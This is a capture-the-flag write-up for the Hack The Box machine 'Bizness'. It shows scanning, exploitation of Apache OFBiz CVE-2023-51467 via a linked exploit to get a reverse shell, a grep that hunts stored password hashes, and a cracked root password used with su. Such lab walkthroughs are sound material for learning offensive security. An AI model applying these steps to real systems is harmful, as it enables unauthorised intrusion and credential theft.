





<h1 align="center"> Bizness </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/582">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp-80)
3. [CVE-2023-51467](#3-cve-2023-51467)
4. [Privilege Escalation](#4-user-to-root)
5. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  8 10:10:57 2024 -- 1 IP address (1 host up) scanned in 29.47 seconds
```

## 2. TCP-80

There is an active service on port 80 and, as you can see from the nmap output, it redirects us to *https://bizness.htb*, so before connecting, we add it in `/etc/hosts`.

<p align="center">
  
</p>

Not seeing anything interesting I started [dirsearch](https://github.com/maurosoria/dirsearch).

```bash
└─$ dirsearch -u https://bizness.htb --exclude-status 403,404,500,502,400,401

302     0B   https://bizness.htb/accounting    -> REDIRECTS TO: https://bizness.htb/accounting/
302     0B   https://bizness.htb/catalog    -> REDIRECTS TO: https://bizness.htb/catalog/
302     0B   https://bizness.htb/common    -> REDIRECTS TO: https://bizness.htb/common/
302     0B   https://bizness.htb/content    -> REDIRECTS TO: https://bizness.htb/content/
302     0B   https://bizness.htb/content/    -> REDIRECTS TO: https://bizness.htb/content/control/main
302     0B   https://bizness.htb/content/debug.log    -> REDIRECTS TO: https://bizness.htb/content/control/main
200    34KB  https://bizness.htb/control
200    34KB  https://bizness.htb/control/
200    11KB  https://bizness.htb/control/login
302     0B   https://bizness.htb/error    -> REDIRECTS TO: https://bizness.htb/error/
302     0B   https://bizness.htb/example    -> REDIRECTS TO: https://bizness.htb/example/
302     0B   https://bizness.htb/images    -> REDIRECTS TO: https://bizness.htb/images/
302     0B   https://bizness.htb/index.jsp    -> REDIRECTS TO: https://bizness.htb/control/main
200    21B   https://bizness.htb/solr/admin/
200    21B   https://bizness.htb/solr/admin/file/?file=solrconfig.xml
302     0B   https://bizness.htb/solr/    -> REDIRECTS TO: https://bizness.htb/solr/control/checkLogin/
```

Trying to connect to the first result obtained I am redirected to the [OFBiz](https://en.wikipedia.org/wiki/Apache_OFBiz) login page.

<p align="center">
  
</p>

## 3. CVE-2023-51467

Having the system version

<p align="center">
  
</p>

I started looking for vulnerabilities and I found [CVE-2023-51467](https://www.letsdefend.io/blog/exploitation-analysis-of-apache-ofbiz-zero-day-vulnerabilities-cve-2023-49070-cve-2023-51467#:~:text=CVE%2D2023%2D51467%20is%20a,without%20requiring%20any%20prior%20authentication.), thanks to which it is possible to bypass authentication and execute commands. So I found an [exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) for that CVE and performed a reverse shell.

<p align="center">
  
</p>


We can have a better shell with the following command:

- python3 -c 'import pty; pty.spawn("/bin/bash")'
- CTRL + Z
- stty raw -echo; fg
- export TERM=xterm

In */home/ofbiz* there is the user flag.

## 4. User to ROOT

I tried using [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) without success, so, after some exploration, I found an interesting file in */opt/ofbiz/framework/resources/templates/* called *AdminUserLoginData.xml*.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
```

So we have the current password but it is of no use. Then I ran a grep on each file to see if there were any passwords that were usable.

```bash
ofbiz@bizness:/opt/ofbiz$ find . -type f -exec strings {} \; | grep "currentPassword"
[...SNIPPET...]
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
[...SNIPPET...]
```

In the output I found a salted hash referring to the admin (which after looking it up I saw was in */opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat*).

While looking for a way to crack the hash I found a [tool](https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker) that performs this operation on hashes coming from OFBiz.

<p align="center">
  
</p>

We use the password found to become superuser.

```bash
ofbiz@bizness:/opt/ofbiz$ su 
su 
Password: monkeybizness

root@bizness:/opt/ofbiz# whoami
whoami
root
```

In */root* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/582">
        
    </a>
</p>